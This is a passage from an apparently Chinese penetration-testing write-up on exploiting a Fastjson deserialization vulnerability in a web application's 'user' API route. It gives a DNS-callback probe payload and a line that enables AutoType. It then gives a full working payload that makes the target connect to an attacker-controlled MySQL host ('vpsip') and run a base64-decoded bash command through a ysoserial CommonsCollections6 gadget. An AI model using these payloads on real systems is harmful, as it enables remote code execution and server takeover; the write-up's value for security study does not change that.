 
根据路由分析，这里的 apiName 为 user，这样能够寻找到 UserComponent 里的 select 方法

**测试**

抓包设置 payload

```plain
{"@type":"java.net.Inet4Address","val":"xxxxxx"}
```

[![](assets/1711556055-af4d946c7309ccbef722c8ef5ae405c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201232916-a8cd8460-c116-1.png)

收到 DNS 请求，证明漏洞存在

[![](assets/1711556055-8e4bfe0e560074abe93aaab13bb9db21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201232940-b756f214-c116-1.png)

接下来可以进行 LDAP 注入，但是需要确定 AutoType 是否开启

可以通过以下代码开启

```plain
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

但是在实际测试的过程中，没有开启可以通过 mysql 服务来打

payload：

```plain
{
      "@type": "java.lang.AutoCloseable",
      "@type": "com.mysql.jdbc.JDBC4Connection",
      "hostToConnectTo": "vpsip",
      "portToConnectTo": 3306,
      "info": {
          "user": "yso_CommonsCollections6_bash -c {echo,xxxxx}|{base64,-d}|{bash,-i}",
          "password": "pass",
          "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
          "autoDeserialize": "true",
          "NUM_HOSTS": "1"
      },
      "databaseToConnectTo": "dbname",
      "url": ""
  }
```
